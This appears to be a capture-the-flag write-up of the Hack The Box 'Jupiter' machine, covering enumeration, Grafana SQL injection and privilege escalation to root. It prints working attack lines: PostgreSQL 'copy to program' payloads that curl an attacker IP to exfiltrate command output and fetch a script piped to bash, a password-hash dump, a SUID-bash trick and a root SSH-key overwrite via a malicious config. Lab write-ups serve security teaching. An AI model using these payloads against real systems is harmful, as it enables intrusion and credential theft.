


Jupiter#
Enum#
nmap -Pn -p- --min-rate 10000 10.10.11.216 -oN scans/nmap.all_tcp
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 10:34 IST
Nmap scan report for jupiter.htb (10.10.11.216)
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
nmap -Pn -p22,80 -sC -sV 10.10.11.216 -oN scans/nmap.scripts
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 10:35 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 10:35 (0:00:00 remaining)
Nmap scan report for jupiter.htb (10.10.11.216)
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 ac5bbe792dc97a00ed9ae62b2d0e9b32 (ECDSA)
|_ 256 6001d7db927b13f0ba20c6c900a71b41 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home | Jupiter
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.67 seconds
cat dirsearch|grep '200\|301' 1 ⨯
[10:36:47] 301 - 178B - /js -> http://jupiter.htb/js/ (Added to queue)
[10:36:51] 200 - 12KB - /about.html
[10:36:58] 200 - 10KB - /contact.html
[10:36:58] 301 - 178B - /css -> http://jupiter.htb/css/ (Added to queue)
[10:37:00] 301 - 178B - /fonts -> http://jupiter.htb/fonts/ (Added to queue)
[10:37:01] 301 - 178B - /img -> http://jupiter.htb/img/ (Added to queue)
[10:37:01] 200 - 19KB - /index.html
[10:37:29] 200 - 4KB - /js/main.js
[10:38:34] 200 - 8KB - /img/.DS_Store
[10:38:39] 301 - 178B - /img/about -> http://jupiter.htb/img/about/ (Added to queue)
[10:38:44] 301 - 178B - /img/blog -> http://jupiter.htb/img/blog/
[10:38:48] 301 - 178B - /img/icons -> http://jupiter.htb/img/icons/ (Added to queue)
[10:38:50] 301 - 178B - /img/logo -> http://jupiter.htb/img/logo/ (Added to queue)
The grafana subdomain:#
The whole main site is static, and likely nothing of interest.
Finding a subdomain
ffuf \ 130 ⨯
-c \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
-u "http://jupiter.htb" \
-H "Host: FUZZ.jupiter.htb" -mc all -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://jupiter.htb
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
:: Header : Host: FUZZ.jupiter.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response size: 178
________________________________________________
[Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 123ms]
* FUZZ: kiosk
:: Progress: [114441/114441] :: Job [1/1] :: 1111 req/sec :: Duration: [0:01:40] :: Errors: 0 ::
grep '200\|301' dirsearch-graphana 1 ⨯
[11:05:24] 200 - 34KB - /login
[11:05:24] 200 - 34KB - /login/ (Added to queue)
[11:05:29] 200 - 107KB - /metrics
[11:05:30] 200 - 34KB - /monitoring
[11:05:30] 200 - 34KB - /monitoring/ (Added to queue)
[11:05:48] 200 - 26B - /robots.txt
[11:05:53] 200 - 34KB - /signup
[11:05:58] 200 - 2KB - /swagger-ui
curl -s http://kiosk.jupiter.htb/robots.txt
User-agent: *
Disallow: /
It’s grafana v9.5.2 (cfcea75916) and this version has a DDoS vuln, which is probably a red herring in itself
https://github.com/grafana/grafana/blob/main/CHANGELOG.md
https://vuldb.com/?id.230868
https://cve.report/CVE-2023-2801
https://vuxml.freebsd.org/freebsd/652064ef-056f-11ee-8e16-6c3be5272acd.html
<!-- 9.5.3 START -->
# 9.5.3 (2023-06-06)
### Bug fixes
- **Query:** Prevent crash while executing concurrent mixed queries
- **Alerting:** Require alert.notifications:write permissions to test receivers and templates
<!-- 9.5.3 END -->
Grafana is an open-source platform for monitoring and observability.
Using public dashboards users can query multiple distinct data sources using mixed queries. However such query has a possibility of crashing a Grafana instance.
The only feature that uses mixed queries at the moment is public dashboards, but it’s also possible to cause this by calling the query API directly.
This might enable malicious users to crash Grafana instances through that endpoint.
Users may upgrade to version 9.4.12 and 9.5.3 to receive a fix.
It also exposes the api’s swagger
http://kiosk.jupiter.htb/swagger-ui
SQL injection#
Now even though the aforementionned vuln isn’t of much interest to us now, it hints to the fact that we have some amount of control over the queries that are beeing made to the backend db. And if we look at the requests made by the dashboard in burp, our amount of control is pretty obvious:

We can play with the database
SELECT datname FROM pg_database;
[
"postgres",
"moon_namesdb",
"template1",
"template0"
]
Getting the hash for the db user
SELECT usename, passwd from pg_shadow;
"values": [
[
"postgres",
"grafana_viewer"
],
[
null,
"SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY="
]
]
Which of course I attempted to crack, but didn’t have any success, at least not with a simple rockyou list
hashcat -a0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
OpenCL API (OpenCL 3.0 PoCL 3.1+debian Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 2914/5892 MB (1024 MB allocatable), 4MCU
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
28600 | PostgreSQL SCRAM-SHA-256 | Database Server
NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Host memory required for this attack: 1 MB
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>
RCE through the SQLi#
Looking at hacktricks, we can use this to get RCE
"'copy (SELECT '') to program 'curl http://10.10.14.117:8000?f=`ls -la|base64`'"
printf 'dG90YWwgODQKZHJ3eC0tLS0tLSA2IHBvc3RncmVzIHBvc3RncmVzIDQwOTYgTWF5ICA0IDE4OjU5'|base64 -d
total 84
drwx------ 6 postgres postgres 4096 May 4 18:59
"'copy (SELECT '') to program 'curl http://10.10.14.117:8000?f=`id|base64`'"
printf 'dWlkPTExNChwb3N0Z3JlcykgZ2lkPTEyMChwb3N0Z3JlcykgZ3JvdXBzPTEyMChwb3N0Z3Jlcyks'|base64 -d
uid=114(postgres) gid=120(postgres) groups=120(postgres),
"copy (SELECT '') to program 'curl http://10.10.14.117:8000/zoinks.sh|bash'"
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.216 - - [10/Jun/2023 15:17:15] "GET / HTTP/1.1" 200 -
10.10.11.216 - - [10/Jun/2023 15:17:27] "GET /zoinks.sh HTTP/1.1" 200 -
10.10.11.216 - - [10/Jun/2023 15:18:21] "GET /zoinks.sh HTTP/1.1" 200 -
And we get a shell as protgres
$ ls -la
total 16
drwxr-xr-x 4 root root 4096 Mar 7 13:00 .
drwxr-xr-x 19 root root 4096 May 4 18:59 ..
drwxr-x--- 6 jovian jovian 4096 May 4 18:59 jovian
drwxr-x--- 8 juno juno 4096 May 4 12:10 juno
$
$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
Exploiting shadow network simulator#
pspy64 tells us that there is a cronjob running a thing as juno
It’s a network simulation tool called shadow, but what it’s really intended to be used for isn’t really our concern now is it?
$ id 1000
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
It does this every 2 minutes
2023/06/11 08:38:01 CMD: UID=1000 PID=3787 | /bin/bash /home/juno/shadow-simulation.sh
2023/06/11 08:38:01 CMD: UID=1000 PID=3786 | /bin/sh -c /home/juno/shadow-simulation.sh
2023/06/11 08:38:01 CMD: UID=1000 PID=3789 | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml
2023/06/11 08:38:01 CMD: UID=1000 PID=3792 | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE
2023/06/11 08:38:01 CMD: UID=1000 PID=3793 | lscpu --online --parse=CPU,CORE,SOCKET,NODE
2023/06/11 08:38:01 CMD: UID=1000 PID=3798 | /usr/bin/python3 -m http.server 80
2023/06/11 08:38:01 CMD: UID=1000 PID=3799 | /usr/bin/curl -s server
2023/06/11 08:38:01 CMD: UID=1000 PID=3801 | /usr/bin/curl -s server
2023/06/11 08:38:01 CMD: UID=1000 PID=3803 | /usr/bin/curl -s server
Based on the config file located in /dev/shm
cat network-simulation.yml
general:
# stop after 10 simulated seconds
stop_time: 10s
# old versions of cURL use a busy loop, so to avoid spinning in this busy
# loop indefinitely, we add a system call latency to advance the simulated
# time when running non-blocking system calls
model_unblocked_syscall_latency: true
network:
graph:
# use a built-in network graph containing
# a single vertex with a bandwidth of 1 Gbit
type: 1_gbit_switch
hosts:
# a host with the hostname 'server'
server:
network_node_id: 0
processes:
- path: /usr/bin/python3
args: -m http.server 80
start_time: 3s
# three hosts with hostnames 'client1', 'client2', and 'client3'
client:
network_node_id: 0
quantity: 3
processes:
- path: /usr/bin/curl
args: -s server
start_time: 5s
Which we have write access to
ls -la network-simulation.yml
-rw-rw-rw- 1 juno juno 815 Mar 7 12:28 network-simulation.yml
So after playing around for a while, tring to spin up revshells and the like, this is what ended up sticking, note that the folder when you put your bash needs to be writable by juno as well.
general:
# stop after 10 simulated seconds
stop_time: 10s
# old versions of cURL use a busy loop, so to avoid spinning in this busy
# loop indefinitely, we add a system call latency to advance the simulated
# time when running non-blocking system calls
model_unblocked_syscall_latency: true
network:
graph:
# use a built-in network graph containing
# a single vertex with a bandwidth of 1 Gbit
type: 1_gbit_switch
hosts:
# a host with the hostname 'server'
server:
network_node_id: 0
processes:
- path: /usr/bin/cp
args: /usr/bin/bash /tmp/blnkn/bash
start_time: 3s
# three hosts with hostnames 'client1', 'client2', and 'client3'
client:
network_node_id: 0
quantity: 3
processes:
- path: /usr/bin/chmod
args: u+s /tmp/blnkn/bash
start_time: 5s
Exploiting the jupyter notebooks instance#
And we now have a shell as juno, dropping a pubkey and exploring further.
He is part of a science group
juno@jupiter:/dev/shm$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
That group has access to stuff in /opt
find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
And this is a jupiter notebooks instance, running as jovian, so I’m dropping a chisel, and setting it up as a socks5 reverse proxy, so I can access the jupiter notebooks from my browser, with the token as suggested in the logs:
[C 06:57:45.470 NotebookApp]
To access the notebook, open this file in a browser:
file:///home/jovian/.local/share/jupyter/runtime/nbserver-1169-open.html
Or copy and paste one of these URLs:
http://localhost:8888/?token=4353587a54185d2fc6feb3801708466b155ecb7ddc217c87
or http://127.0.0.1:8888/?token=4353587a54185d2fc6feb3801708466b155ecb7ddc217c87
Things are pretty straightforward from here 
Privesc reverse engineering a custom binary (sattrack)#
Now that we have a shell as jovian, we check his sudoers, and he has access to this satelite tracking app.
There are projects called sattrack, but I believe this thing specifically is unique to the box as I couldn’t find anything on the internet specifically matching it.
Also the first seen date on virus total matches the release date of the box.
jovian@jupiter:~$ id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
jovian@jupiter:~$ sudo -l
Matching Defaults entries for jovian on jupiter:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User jovian may run the following commands on jupiter:
(ALL) NOPASSWD: /usr/local/bin/sattrack
jovian@jupiter:/usr/local/bin$ file sattrack
sattrack: ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c68bedeeb5dd99903454a774db56a7a533ce7ff4, for GNU/Linux 3.2.0, not stripped
jovian@jupiter:~$ find / -iname sattrack 2>/dev/null
/usr/local/share/sattrack
/usr/local/bin/sattrack
jovian@jupiter:~$ cd /usr/local/share/sattrack/
jovian@jupiter:/usr/local/share/sattrack$ ls -la
total 15408
drwxr-xr-x 2 root root 4096 May 4 18:59 .
drwxr-xr-x 9 root root 4096 May 4 18:59 ..
-rw-r--r-- 1 root root 610 Mar 8 12:15 config.json
-rw-r--r-- 1 root root 15451549 Mar 8 12:16 earth.png
-rw-r--r-- 1 root root 308117 Mar 8 12:16 map.json
It seems to read the config file if it’s in /tmp, it then tries to hit some internet hosted files with TLE data for satelite positions. Of course those are unreachable from the box, so I downloaded them on my machine and served them myself.
I did exfiltrate the binary and attempted to gain a better understanding of what it does exactly by decompiling it with Ghidra. Here’s the function it was hitting an error in when not beeing able to parse the TLE data right… I’m not completely sure tbh, I’m no ghidra wizard.
long orbit_init_from_data(undefined8 param_1,long param_2,ulong param_3)
{
int iVar1;
int iVar2;
char *__ptr;
ushort **ppuVar3;
uint uStack_38;
int iStack_34;
long lStack_30;
ulong uStack_28;
char *pcStack_20;
lStack_30 = -1;
uStack_38 = 0;
iStack_34 = 0;
__ptr = (char *)malloc(0x46);
if (__ptr == (char *)0x0) {
su_logprintf(3,&DAT_00173f96,__FUNCTION__.2,0xef,"exception in \"%s\" (%s:%d)\n",
"linebuf = malloc(69 + 1)","(no file)",0xef);
LAB_001165fc:
if (__ptr != (char *)0x0) {
free(__ptr);
}
return lStack_30;
}
__ptr[0x45] = '\0';
lStack_30 = 0;
uStack_28 = 0;
do {
if ((lStack_30 != 0) || (param_3 <= uStack_28)) goto LAB_001165fc;
if (*(char *)(param_2 + uStack_28) == '\n') {
__ptr[uStack_38] = '\0';
uStack_38 = 0;
pcStack_20 = __ptr;
while (ppuVar3 = __ctype_b_loc(), ((*ppuVar3)[*pcStack_20] & 0x2000) != 0) {
pcStack_20 = pcStack_20 + 1;
}
if (*pcStack_20 != '\0') {
iVar1 = iStack_34 + 1;
iVar2 = su_orbit_parse_tle_line(param_1,iStack_34,__ptr);
if (iVar2 == 0) {
su_logprintf(3,&DAT_00173f96,__FUNCTION__.2,0x109,"exception in \"%s\" (%s:%d)\n",
"su_orbit_parse_tle_line(self, linenum++, linebuf)","(no file)",0x109);
goto LAB_001165fc;
}
iStack_34 = iVar1;
if (iVar1 == 3) {
lStack_30 = uStack_28 + 1;
}
}
}
else if (*(char *)(param_2 + uStack_28) != '\r') {
ppuVar3 = __ctype_b_loc();
if (((*ppuVar3)[*(char *)(param_2 + uStack_28)] & 0x4000) == 0) {
su_logprintf(3,&DAT_00173f96,__FUNCTION__.2,0x115,"Invalid character found in offset %d\n",
uStack_28);
lStack_30 = -1;
}
if (uStack_38 < 0x45) {
__ptr[uStack_38] = *(char *)(uStack_28 + param_2);
uStack_38 = uStack_38 + 1;
}
}
uStack_28 = uStack_28 + 1;
} while( true );
}
In any case even with the intended use of the binary failing we can already see some interesting behavior, the successfully pulled tle resources are written by root into the /tmp/tle folder. The cool thing here is we also have control over where the binary writes those from the config file, so we can do this:
{
"tleroot": "/root/.ssh/",
"tlefile": "weather.txt",
"mapfile": "/usr/local/share/sattrack/map.json",
"texturefile": "/usr/local/share/sattrack/earth.png",
"tlesources": [
"http://10.10.14.90:9090/weather.txt",
"http://10.10.14.90:9090/noaa.txt",
"http://10.10.14.90:9090/authorized_keys",
"http://10.10.14.90:9090/starlink.txt"
],
"updatePerdiod": 1000,
"station": {
"name": "LORCA",
"lat": 37.6725,
"lon": -1.5863,
"hgt": 335.0
},
"show": [
],
"columns": [
"name",
"azel",
"dis",
"geo",
"tab",
"pos",
"vel"
]
}
And boom! We’re root!
root@jupiter:~#
root@jupiter:~#
root@jupiter:~#